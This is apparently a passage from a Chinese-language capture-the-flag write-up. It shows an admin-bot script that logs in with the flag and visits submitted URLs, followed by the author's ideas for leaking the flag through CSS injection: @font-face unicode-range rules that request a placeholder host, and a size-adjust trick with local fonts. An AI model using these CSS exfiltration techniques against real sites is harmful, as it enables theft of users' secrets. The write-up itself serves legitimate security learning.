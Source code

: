 ``` python
        inputElement = browser.find_element_by_id("username")
        inputElement.send_keys(flag)
        inputElement = browser.find_element_by_id("password")
        inputElement.send_keys(pwd)
        browser.find_element_by_id("submit").click()
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
        time.sleep(timeout)

        browser.get(url)
        WebDriverWait(browser, 30).until(lambda r: r.execute_script('return document.readyState') == 'complete')
        time.sleep(30)
    except:
        print('Error visiting', url, traceback.format_exc(), file=sys.stderr, flush=True)
    finally:
        print('Done visiting', url, file=sys.stderr, flush=True)

@app.route("/", methods=['GET'])
def visit():
    visit_url(request.args.get("url"), 1)
    return "ok"

```

先來講一下我看到這題之後的想法，因為 CSS injection 可以做，內容又在頁面上，所以自然而然會想到 `font-face` 搭配 `unicode-range` 的做法，像這樣：

``` css
@font-face {
  font-family:"A";
  src: url(https://example.com);
  unicode-range: U+006A;
}
.nickname > span:nth-child(1) {
  font-family: A1;
}
```

這樣只要 flag 的第一個字是 `U+006A`，就會套用指定的字體，不過這邊字體被 CSP 限制不能載入，所以這招過不了。

而我想到的另外一招是用 [size-adjust](https://web.dev/css-size-adjust/) 搭配 local font：

``` css
@font-face {
  font-family:"A";
  src: local(Arial);
  size-adjust: 1000%;
  unicode-range: U+006A;
}
.nickname > span:nth-child(1) {
  font-family: A1;
}
```
